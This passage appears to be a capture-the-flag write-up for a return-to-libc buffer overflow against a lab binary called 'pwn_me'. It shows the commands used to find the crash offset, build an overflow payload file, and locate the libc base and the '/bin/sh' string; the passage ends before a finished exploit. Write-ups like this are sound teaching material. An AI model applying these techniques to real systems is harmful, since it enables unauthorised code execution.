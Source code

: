 ```
Binexgod said he want to make this easy.
System is at: 0xf7dee950
```

Since they give the address to `System`, pretty sure this is a `bufferoverflow` exploit.

We start by sending a bunch of random bytes to see if we get a segfault

```
echo $(python3 -c 'print("A"*44)') | ./pwn_me
```

And we do get a segfault.

Now we start the process using `gdb` and play around with the input to figure out the offset of the return address.

The binary expect it input from `stdin`. Didn't find a good way to send `stdin` input from gdb except from a file.

So what I ended up doing was creating a `in` file using this :

```
python3 -c 'open("in","wb").write(b"A"*32 + b"\x50\x79\xd5\xf7")'
```

Then in gdb

```
r < in
```

Kinda wonky.. we need 2 shells to be able to update the `in` file and then launch it using gdb.

Anyhoww, it work. So we figure that the address start at output `32`.

Now I don't have much experience with `buffer overflow` exploitation so I had a look at this :

`https://niiconsulting.com/checkmate/2019/09/exploiting-buffer-overflow-using-return-to-libc/`

Which gave a lot of good infos.

In the example they have `randomize_va_space` turned off which is not the case for us.

Fortunately for us, the program give us the offset of `system@GLIBC`

Still just one part of the problem.

Let's gather the adresses mentionned in the post.

First the base address `ldd pwn_me`

```
linux-gate.so.1 =>  (0xf7f1e000)
libc.so.6 => /lib32/libc.so.6 (0xf7d4a000)
/lib/ld-linux.so.2 (0xf7f20000)
```

So our base address would be `0xf7d4a000`

Then `/bin/sh` address `strings -a -t x /lib32/libc.so.6 | grep /bin/sh`

```
 15910b /bin/sh
```
